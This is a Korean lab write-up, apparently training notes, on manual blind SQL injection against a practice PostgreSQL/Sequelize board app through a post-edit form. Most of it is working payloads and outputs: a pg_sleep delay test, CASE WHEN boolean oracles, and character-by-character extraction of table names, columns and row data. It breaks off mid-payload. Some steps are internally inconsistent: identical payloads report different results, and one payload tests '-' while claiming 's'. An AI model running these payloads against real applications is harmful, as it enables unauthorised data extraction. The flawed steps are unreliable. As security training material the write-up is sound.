


# Blind SQLi 실습

## 개요

### 공격 위치 URI

> **http://[VM 주소]/board/general/586/edit**

### HTTP 요청 Method

> **POST /board/general/586/edit**

### 확인 방법

1. 공격 구문과 함께 요청
2. 응답 시간차 or 글자변경 성공 여부 확인

### Blind SQLi 실습 진행 목표

1. **'MCMK' 내에 존재**하는 **전체 DB 테이블 개수** 확인
2. DB 내에 있는 **1번째 테이블 이름** 추출
3. 1번째 테이블의 **전체 컬럼 수** 추출
4. 테이블의 전체 컬럼 중 **1번째 컬럼의 이름** 추출

### 실습 방법 설명

1. 정상 로그인 후, 임의의 글을 게시판에 작성
2. 작성된 게시글에 들어가, [Edit] 버튼 클릭
3. `Title` 입력 칸에 **'적절한 공격 구문'** 삽입
   (참고: 필요에 따라 `Content` 입력 칸을 이용할 수 있음.)

4. 사용하는 공격 구문에 따라 **반응 확인**
    
    1. `pg_sleep()` 등 Delay 구문 사용: **적절한 시간차가 발생**하는지 확인
        - `pg_sleep(2)` 사용 시: **2초 이상 경과 후** 예상 응답 수신
    2. `CASE ~ WHEN ~ END` 구문 사용: 미리 정한 **`TRUE` / `FALSE` 확인용 문자열이 뜨는지** 확인
        - `TRUE` 반응 시: `[CORRECT!]` 출력
        
        - `FALSE` 반응 시: `[WRONG!]` 출력
        

### 실습 전제

1. 공격자는 `Node.js` 런타임, `Express` 프레임워크, `Sequelize` 모듈에 대한 기반 지식이 존재함.
    - 예상 문자열 발생 시, **일괄 처리**를 통해 **추출 속도를 가속화**할 수 있음

2. 공격자는 `Python` 등으로 **스크립트를 작성할 수 없고**, `sqlmap` 등의  **자동화 툴을 사용할 수 없음.**
    - 모든 공격은 검색이나 간단한 `LLM` 질의만을 이용하여, 직접 페이로드를 구성하는 **수동 방식으로** 진행함.

## 실습 과정

### 1. SQLi 발생 가능성 탐사

#### Single Quote(`'`) 기반 탐색

1. `'` 1개 입력
    - **입력:**

    ``` SQL
    '
    ```

    - **출력:** 사이트 내`Title or content is invalid.` 오류 문구 발생
    > 2개 이상의 `'` 사용 사례 관찰 필요

2. `'` 짝수 개수로 입력
    - **입력:**

    ``` SQL
    ''
    ''''
    '''''''
    ```

    - **출력:** `'`, `''`, `'''`

    > `'` 입력 2개 -> `'` 1개 출력을 확인.
    3개 이상 홀수 개수의 `'` 사용 사례 관찰이 필요함.

3. `'` 3개 이상 홀수 개수로 입력
    - **입력:**

    ``` SQL
    '''
    '''''
    '''''''
    ```

    - **출력:** `500 Error`
    > 파싱 과정 중 오류 발생 추정, SQLi 가능성 확실히 존재함.

#### 입력 자료형 확인

1. `Boolean` 형 검증
    - **입력:**

        ``` SQL
        1' AND (SELECT TRUE FROM (SELECT pg_sleep(2))) AND '1'='1
        ```

    - **출력:** `500 Error`
    > `Boolean`에 대응하는 SQLi Payload를 범용으로 적용하는 건 불가함.
    **자료형마다 알맞는 Payload 구성**이 필요함.
    `AND`와 `AND` 사이의 값이 문자열이 되어야 함

2. `String` 형 검증(실패)
    - **입력:**

        ``` SQL
        1' AND (SELECT 'a' FROM (SELECT pg_sleep(2))) AND '1'='1
        ```

    - **출력:** `500 Error`
    > `AND '1'='1`가 여전히 `Boolean`이므로 오류 발생함.
    다른 Payload 접근 방식이 필요함.

3. `String` 형 검증(성공)
    - **입력:**

        ``` SQL
        a' || (SELECT 'b' FROM (SELECT pg_sleep(2))) || 'c
        ```

    - **출력:** 2초 가량 딜레이 후 **정상 응답**
    > 문자열 기반으로 SQLi 가능함을 확인함.
    해당 방식 대신 더 체계적으로 응답을 조절할 수 있는 구문 발견함.
    **다음은 `CASE ~ WHEN ~ ELSE ~ END` 문법으로 Payload 구성 예정**

**결론:**

> 1. `CASE ~ WHEN ~ ELSE ~ END` 문법으로 Payload 구성함.
> 2. 목표는 **DB 추출 가능성 증명**으로 설정

### 2. DB 추출 가능성 증명

#### 총 테이블 개수 추출

1. 구문 확보 시도
    - **입력:**

        ``` SQL
        [' || CASE WHEN (SELECT COUNT(table_name) FROM information_schema.tables) > 1 THEN 'CORRECT!' ELSE 'WRONG!' END || ']
        ```

    - **출력:** `[CORRECT!]`
    > DB 내 총 테이블 개수 추출 구문 확보 성공
    > **다음 입력부터 양 끝 단의 `[' ||`, `|| ']` 작성 생략**

2. 테이블 개수 확보 시도
    - **입력:**

        ``` SQL
        CASE WHEN (SELECT COUNT(table_name) FROM information_schema.tables) > 1 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    > DB 내 총 테이블 개수 추출 구문 확보 성공

3. 테이블 개수 추출 성공 및 **구문 오류 파악**
    - **입력:**

        ``` SQL
        CASE WHEN (SELECT COUNT(table_name) FROM information_schema.tables) > 218 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

        ``` SQL
        [' || (CASE WHEN (SELECT COUNT(table_name) FROM information_schema.tables) > 219 THEN 'CORRECT!' ELSE 'WRONG!' END) || ']
        ```

    - **출력:** `[CORRECT!]`, `[WRONG!]`
    > PostgreSQL 자체에서 관리하는 MCMK 범위 바깥의 테이블 수까지 한 번에 잡히는 문제 발생.
    추출 구문 수정 필요함.

4. **추출 구문 오류 수정** 후 **테이블 개수 추출 진짜로 성공**
    - **입력:**

        ``` SQL
        CASE WHEN (SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema = 'public' AND table_type = 'BASE TABLE') > 1 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    > MCMK 범위 내의 총 테이블 개수 수준 추출 구문 확보 성공

5. **테이블 개수 추출 진짜로 성공**
    - **입력:**

        ``` SQL
        CASE WHEN (SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema = 'public' AND table_type = 'BASE TABLE') > 5 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

        ``` SQL
        CASE WHEN (SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema = 'public' AND table_type = 'BASE TABLE') > 6 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`, `[WRONG!]`

    **결론:**
    > 1. MCMK 내 총 테이블 수: **6개**

#### 1번째 테이블 이름 글자 수 추출

1. 테이블 이름 글자 수 확인
    - **입력:**

        ``` SQL
        /* 유효하지 않은 범위에서의 SUBSTR 구문 반응 테스트 #1 - SUBSTR([구문], -1, 1) */
        CASE WHEN ASCII(SUBSTR((SELECT table_name FROM (SELECT table_name FROM information_schema.tables WHERE table_schema = 'public' AND table_type = 'BASE TABLE') LIMIT 1 OFFSET 1-1), -1, 1 )) = 0 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

        ``` SQL
        /* 유효하지 않은 범위에서의 SUBSTR 구문 반응 테스트 #2 - SUBSTR([구문], 0, 1) */
        CASE WHEN ASCII(SUBSTR((SELECT table_name FROM (SELECT table_name FROM information_schema.tables WHERE table_schema = 'public' AND table_type = 'BASE TABLE') LIMIT 1 OFFSET 1-1), 0, 1 )) = 0 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

        ``` SQL
        /* 유효한 범위에서의 공격 구분 작동 테스트 성공 */
        [' || (CASE WHEN ASCII(SUBSTR((SELECT table_name FROM (SELECT table_name FROM information_schema.tables WHERE table_schema = 'public' AND table_type = 'BASE TABLE') LIMIT 1 OFFSET 1-1), 1, 1 )) = 0 THEN 'CORRECT!' ELSE 'WRONG!' END) || ']
        ```

        ``` SQL
        /* 1번째 테이블 이름의 글자 수 경계면 확정 #1 - 13번 째 문자열 자리에 NULL이 아닌 ASCII 문자 존재 확인 */
        [' || (CASE WHEN ASCII(SUBSTR((SELECT table_name FROM (SELECT table_name FROM information_schema.tables WHERE table_schema = 'public' AND table_type = 'BASE TABLE') LIMIT 1 OFFSET 1-1), 13, 1 )) = 0 THEN 'CORRECT!' ELSE 'WRONG!' END) || ']
        ```

        ``` SQL
        /* 1번째 테이블 이름의 글자 수 경계면 확정 #2 - 14번 째 문자열 자리에 ASCII 문자 NULL 값 확인 */
        [' || (CASE WHEN ASCII(SUBSTR((SELECT table_name FROM (SELECT table_name FROM information_schema.tables WHERE table_schema = 'public' AND table_type = 'BASE TABLE') LIMIT 1 OFFSET 1-1), 14, 1 )) = 0 THEN 'CORRECT!' ELSE 'WRONG!' END) || ']
        ```

    - **출력:** `[CORRECT!]`,`[CORRECT!]`,`[WRONG!]`,`[WRONG!]`,`[CORRECT!]`

**결론:**

> 1번째 테이블 이름의 글자 수: **13자**

#### 1번째 테이블 이름 추출

1. 1번째 글자
    - **입력:**

        ```SQL
        /* 경계면 확정 #1 */
        CASE WHEN ASCII(SUBSTR((SELECT table_name FROM (SELECT table_name FROM information_schema.tables WHERE table_schema = 'public' AND table_type = 'BASE TABLE') LIMIT 1 OFFSET 1-1), 1, 1 )) >= 83 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

        ```SQL
        /* 경계면 확정 #2 */
        CASE WHEN ASCII(SUBSTR((SELECT table_name FROM (SELECT table_name FROM information_schema.tables WHERE table_schema = 'public' AND table_type = 'BASE TABLE') LIMIT 1 OFFSET 1-1), 1, 1 )) >= 84 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`, `[WRONG!]`
    **결론:**
        > 1번째 테이블 이름의 1번째 글자: S

2. 2번째 글자
    - **입력:**

        ```SQL
        /* 경계면 확정 #1 */
        CASE WHEN ASCII(SUBSTR((SELECT table_name FROM (SELECT table_name FROM information_schema.tables WHERE table_schema = 'public' AND table_type = 'BASE TABLE') LIMIT 1 OFFSET 1-1), 2, 1 )) >= 101 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

        ```SQL
        CASE WHEN ASCII(SUBSTR((SELECT table_name FROM (SELECT table_name FROM information_schema.tables WHERE table_schema = 'public' AND table_type = 'BASE TABLE') LIMIT 1 OFFSET 1-1), 2, 1 )) >= 102 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`, `[WRONG!]`
    **결론:**
        > 1번째 테이블 이름의 2번째 글자: e

3. 3번째 글자
    - **입력:**

        ```SQL
        /* 경계면 확정 #1 */
        CASE WHEN ASCII(SUBSTR((SELECT table_name FROM (SELECT table_name FROM information_schema.tables WHERE table_schema = 'public' AND table_type = 'BASE TABLE') LIMIT 1 OFFSET 1-1), 3, 1 )) >= 113 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

        ```SQL
        /* 경계면 확정 #2 */
        CASE WHEN ASCII(SUBSTR((SELECT table_name FROM (SELECT table_name FROM information_schema.tables WHERE table_schema = 'public' AND table_type = 'BASE TABLE') LIMIT 1 OFFSET 1-1), 3, 1 )) >= 113 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`, `[WRONG!]`
    **결론:**
        > 1번째 테이블 이름의 3번째 글자: q

4. 4번째 글자
    - **입력:**

        ```SQL
        /* 테이블 이름이 예상되는 값이기에, 지금부터는 부등호 대신 등식(=)으로 빠르게 값 비교 진행 */
        CASE WHEN ASCII(SUBSTR((SELECT table_name FROM (SELECT table_name FROM information_schema.tables WHERE table_schema = 'public' AND table_type = 'BASE TABLE') LIMIT 1 OFFSET 1-1), 4, 1 )) = 117 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
        > 1번째 테이블 이름의 4번째 글자: u

5. 5번째 글자
    - **입력:**

        ```SQL
        CASE WHEN ASCII(SUBSTR((SELECT table_name FROM (SELECT table_name FROM information_schema.tables WHERE table_schema = 'public' AND table_type = 'BASE TABLE') LIMIT 1 OFFSET 1-1), 5, 1 )) = 101 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
        > 1번째 테이블 이름의 5번째 글자: e

6. 6번째 글자
    - **입력:**

        ```SQL
        CASE WHEN ASCII(SUBSTR((SELECT table_name FROM (SELECT table_name FROM information_schema.tables WHERE table_schema = 'public' AND table_type = 'BASE TABLE') LIMIT 1 OFFSET 1-1), 6, 1 )) = 108 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
        > 1번째 테이블 이름의 6번째 글자: l

7. 7번째 글자
    - **입력:**

        ```SQL
        CASE WHEN ASCII(SUBSTR((SELECT table_name FROM (SELECT table_name FROM information_schema.tables WHERE table_schema = 'public' AND table_type = 'BASE TABLE') LIMIT 1 OFFSET 1-1), 7, 1 )) = 105 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
        > 1번째 테이블 이름의 7번째 글자: i

8. 8번째 글자
    - **입력:**

        ```SQL
        CASE WHEN ASCII(SUBSTR((SELECT table_name FROM (SELECT table_name FROM information_schema.tables WHERE table_schema = 'public' AND table_type = 'BASE TABLE') LIMIT 1 OFFSET 1-1), 8, 1 )) = 122 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
        > 1번째 테이블 이름의 8번째 글자: z

9. 9번째 글자
    - **입력:**

        ```SQL
        CASE WHEN ASCII(SUBSTR((SELECT table_name FROM (SELECT table_name FROM information_schema.tables WHERE table_schema = 'public' AND table_type = 'BASE TABLE') LIMIT 1 OFFSET 1-1), 9, 1 )) = 101 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
        > 1번째 테이블 이름의 9번째 글자: e

10. 10번째 글자
    - **입력:**

        ```SQL
        CASE WHEN ASCII(SUBSTR((SELECT table_name FROM (SELECT table_name FROM information_schema.tables WHERE table_schema = 'public' AND table_type = 'BASE TABLE') LIMIT 1 OFFSET 1-1), 10, 1 )) = 77 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
        > 1번째 테이블 이름의 10번째 글자: M

11. 11번째 글자
    - **입력:**

        ```SQL
        CASE WHEN ASCII(SUBSTR((SELECT table_name FROM (SELECT table_name FROM information_schema.tables WHERE table_schema = 'public' AND table_type = 'BASE TABLE') LIMIT 1 OFFSET 1-1), 11, 1 )) = 101 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
        > 1번째 테이블 이름의 11번째 글자: e

12. 12번째 글자
    - **입력:**

        ```SQL
        CASE WHEN ASCII(SUBSTR((SELECT table_name FROM (SELECT table_name FROM information_schema.tables WHERE table_schema = 'public' AND table_type = 'BASE TABLE') LIMIT 1 OFFSET 1-1), 12, 1 )) = 116 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
        > 1번째 테이블 이름의 12번째 글자: t

13. 13번째 글자
    - **입력:**

        ```SQL
        CASE WHEN ASCII(SUBSTR((SELECT table_name FROM (SELECT table_name FROM information_schema.tables WHERE table_schema = 'public' AND table_type = 'BASE TABLE') LIMIT 1 OFFSET 1-1), 13, 1 )) = 97 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
        > 1번째 테이블 이름의 13번째 글자: a

**결론:**

> 1번째 테이블 이름: **`SequelizeMeta`**

#### 총 테이블 컬럼 수 추출

1. 실패 구문: `SequelizeMeta` 에 따옴표가 없으면 전부 소문자로 치환하여 파싱됨

    - **입력:**

        ```SQL
        CASE WHEN ASCII(SUBSTR((SELECT table_name FROM (SELECT table_name FROM information_schema.tables WHERE table_schema = 'public' AND table_type = 'BASE TABLE') LIMIT 1 OFFSET 1-1), 13, 1 )) = 97 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `500 Error`

2. 실패 구문: `column_name` 이란 컬럼이 없어서 오류 발생

    - **입력:**

        ```SQL
        CASE 
            WHEN (
                SELECT COUNT(column_name) 
                FROM "SequelizeMeta"
            ) = 1 
            THEN 'CORRECT!' 
            ELSE 'WRONG!' 
        END
        ```

    - **출력:** `500 Error`
    > 방향성 수정: 컬럼 개수 세려면 테이블에서 세는 것 대신 **이전처럼 메타데이터를 이용하는 것**이 좋음

3. 성공: 'SequelizeMeta' 테이블의 컬럼 개수 -> 1개

    - **입력:**

        ```SQL
        -- 테이블 개수와 이름 찾을 때랑 동일하게 메타데이터 방식을 이용!
        CASE 
            WHEN (
                SELECT COUNT(column_name) 
                FROM information_schema.columns
                WHERE table_schema = 'public'
                    AND table_name='SequelizeMeta'
            ) = 1 
            THEN 'CORRECT!' 
            ELSE 'WRONG!' 
        END
        ```

    - **출력:** `[CORRECT!]`

**결론:**
> 'SequelizeMeta' 테이블의 컬럼 개수:  **1개**

#### 테이블 컬럼 이름 글자 수 세기

1. 성공 1: 전체 행 개수 세기

    - **입력:**

        ```SQL
        -- 참고: '성공 1'과 '성공 2'는 동작이 동일함
        CASE 
            WHEN (
                SELECT COUNT(*) 
                FROM "SequelizeMeta"
            ) = 9 
            THEN 'CORRECT!' 
            ELSE 'WRONG!' 
        END
        ```

    - **출력:** `[CORRECT!]`

2. 성공 2: 전체 행 개수 세기(같은 동작)
    - **입력:**

        ```SQL
        -- 참고: '성공 1'과 '성공 2'는 동작이 동일함
        CASE 
            WHEN (
                SELECT COUNT(name) 
                FROM "SequelizeMeta"
            ) = 9 
            THEN 'CORRECT!' 
            ELSE 'WRONG!' 
        END
        ```

    - **출력:** `[CORRECT!]`

**결론:**
> 'SequelizeMeta' 테이블 내 데이터 행 개수:  **9개**

#### 테이블 컬럼 제목 추출

1. 1번째 글자
    - **입력:**

        ```SQL
        -- 성공 : 1번째 글자 n
        CASE WHEN ASCII(
            SUBSTR((
                SELECT column_name
                FROM information_schema.columns
                WHERE table_schema = 'public'
                    AND table_name = 'SequelizeMeta'
            ), 1, 1)) = 110
        THEN 'CORRECT!'
        ELSE 'WRONG!' 
        END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 'SequelizeMeta' 테이블 컬럼 제목 1번째 글자:  **n**

2. 2번째 글자
    - **입력:**

        ```SQL
        -- 성공 : 2번째 글자 a
        CASE WHEN ASCII(
            SUBSTR((
                SELECT column_name
                FROM information_schema.columns
                WHERE table_schema = 'public'
                    AND table_name = 'SequelizeMeta'
            ), 2, 1)) = 97
        THEN 'CORRECT!'
        ELSE 'WRONG!' 
        END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 'SequelizeMeta' 테이블 컬럼 제목 2번째 글자:  **a**

3. 3번째 글자
    - **입력:**

        ```SQL
        -- 성공 : 3번째 글자 m
        CASE WHEN ASCII(
            SUBSTR((
                SELECT column_name
                FROM information_schema.columns
                WHERE table_schema = 'public'
                    AND table_name = 'SequelizeMeta'
            ), 3, 1)) = 109
        THEN 'CORRECT!'
        ELSE 'WRONG!' 
        END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 'SequelizeMeta' 테이블 컬럼 제목 3번째 글자:  **m**

4. 4번째 글자
    - **입력:**

        ```SQL
        -- 성공 : 4번째 글자 e
        CASE WHEN ASCII(
            SUBSTR((
                SELECT column_name
                FROM information_schema.columns
                WHERE table_schema = 'public'
                    AND table_name = 'SequelizeMeta'
            ), 4, 1)) = 101
        THEN 'CORRECT!'
        ELSE 'WRONG!'
        END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 'SequelizeMeta' 테이블 컬럼 제목 4번째 글자:  **e**

5. 5번째 글자 **`NULL` 확인**
    - **입력:**

        ```SQL
        -- 성공 : 5번째 글자 NULL
        CASE WHEN ASCII(
            SUBSTR((
                SELECT column_name
                FROM information_schema.columns
                WHERE table_schema = 'public'
                    AND table_name = 'SequelizeMeta'
            ), 5, 1)) = 0
        THEN 'CORRECT!'
        ELSE 'WRONG!' 
        END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 'SequelizeMeta' 테이블 컬럼 제목은 **4글자임**

**결론:**
> "SequelizeMeta" 테이블의 Column 이름: **name**

#### 테이블 'name' 컬럼의 1번째 행의 글자 추출

1. 1번째 글자
    - **입력:**

        ```SQL
        -- 성공 : 1번째 글자 2
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 1, 1)) = 50 THEN 'CORRECT!' ELSE 'WRONG!' END 
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 1번째 데이터의 1번째 글자: **2**

2. 2번째 글자
    - **입력:**

        ```SQL
        -- 성공 : 2번째 글자 0
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 2, 1)) = 48 THEN 'CORRECT!' ELSE 'WRONG!' END 
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 1번째 데이터의 2번째 글자: **0**

3. 3번째 글자
    - **입력:**

        ```SQL
        -- 성공 : 3번째 글자 2
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 3, 1)) = 50 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 1번째 데이터의 3번째 글자: **2**

4. 4번째 글자
    - **입력:**

        ```SQL
        -- 성공 : 4번째 글자 6
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 4, 1)) = 54 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 1번째 데이터의 4번째 글자: **6**

5. 5번째 글자
    - **입력:**

        ```SQL
        -- 성공 : 5번째 글자 0
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 5, 1)) = 48 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 1번째 데이터의 5번째 글자: **0**

6. 6번째 글자
    - **입력:**

        ```SQL
        -- 성공 : 6번째 글자 1
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 6, 1)) = 49 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 1번째 데이터의 6번째 글자: **1**

7. 7번째 글자
    - **입력:**

        ```SQL
        -- 성공 : 7번째 글자 1
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 7, 1)) = 49 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 1번째 데이터의 7번째 글자: **1**

8. 8번째 글자
    - **입력:**

        ```SQL
        -- 성공 : 8번째 글자 2
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 8, 1)) = 50 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 1번째 데이터의 8번째 글자: **2**

9. 9번째 글자
    - **입력:**

        ```SQL
        -- 성공 : 9번째 글자 1
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 9, 1)) = 49 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 1번째 데이터의 9번째 글자: **1**

10. 10번째 글자
    - **입력:**

        ```SQL
        -- 성공 : 10번째 글자 0
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 10, 1)) = 48 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 1번째 데이터의 10번째 글자: **0**

11. 11번째 글자
    - **입력:**

        ```SQL
        -- 성공 : 11번째 글자 0
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 11, 1)) = 48 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 1번째 데이터의 11번째 글자: **0**

12. 12번째 글자
    - **입력:**

        ```SQL
        -- 성공 : 12번째 글자 0
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 12, 1)) = 48 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 1번째 데이터의 12번째 글자: **0**

13. 13번째 글자
    - **입력:**

        ```SQL
        -- 성공 : 13번째 글자 0
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 13, 1)) = 48 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 1번째 데이터의 13번째 글자: **0**

14. 14번째 글자
    - **입력:**

        ```SQL
        -- 성공 : 14번째 글자 0
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 14, 1)) = 48 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 1번째 데이터의 14번째 글자: **0**

15. 15번째 글자
    - **입력:**

        ```SQL
        -- 성공 : 15번째 글자 '-' 
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 15, 1)) = 45 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 1번째 데이터의 15번째 글자: **-**

16. 16번째 글자
    - **입력:**

        ```SQL
        -- 성공 : 16번째 글자 b 
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 16, 1)) = 98 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 1번째 데이터의 16번째 글자: **b**

17. 일괄 추출: 16 ~ 23번째 글자
    - **안내:**
        - 여기서부터는 예상되는 단어가 있으므로, 한꺼번에 검증할 예정
        - `title`칸은 **입력 가능 글자 수 제한 존재**
        - 따라서 **글자 제한이 넉넉한 `Content` 칸 공략**
        
        - 이후 **`Content` 칸에서 반응 확인**
        
    - **입력:**

        ```SQL
        -- 성공 : 16 ~ 23번째 글자 'baseline'
        [' || 
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 16, 1)) = 98 THEN '1' ELSE '0' END ||
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 17, 1)) = 97 THEN '1' ELSE '0' END ||
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 18, 1)) = 115 THEN '1' ELSE '0' END ||
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 19, 1)) = 101 THEN '1' ELSE '0' END ||
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 20, 1)) = 108 THEN '1' ELSE '0' END ||
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 21, 1)) = 105 THEN '1' ELSE '0' END ||
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 22, 1)) = 110 THEN '1' ELSE '0' END ||
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 23, 1)) = 101 THEN '1' ELSE '0' END
        || ']
        ```

    - **출력:** `[11111111]`
    **결론:**
    > 1번째 데이터의 16 ~ 23번째 글자: **baseline**

18. 24번째 글자
    - **입력:**

        ```SQL
        -- 성공 : 24번째 글자 '-'
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 24, 1)) = 45 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 1번째 데이터의 24번째 글자: **-**

19. 25번째 글자
    - **입력:**

        ```SQL
        -- 성공 : 25번째 글자 s
        CASE WHEN ASCII(SUBSTR((SELECT name FROM "SequelizeMeta" LIMIT 1 OFFSET 1-1), 25, 1)) = 45 THEN 'CORRECT!' ELSE 'WRONG!' END
        ```

    - **출력:** `[CORRECT!]`
    **결론:**
    > 1번째 데이터의 25번째 글자: **s**

20. 일괄 추출: 25 ~ 30번째 글자
    - **안내:**
        - 여기서부터는 예상되는 단어가 있으므로, 한꺼번에 검증할 예정
        - 'title'칸은 글자 제한이 존재
        - 따라서 **글자 제한이 넉넉한 `Content` 칸 공략**
        - 이전 'baseline' 추측 때와 같은 방식이므로 **사진 생략**
    - **입력:**

        ```SQL
        -- 성공 : 25 ~ 30번째 글자 'schema'
        [' || 
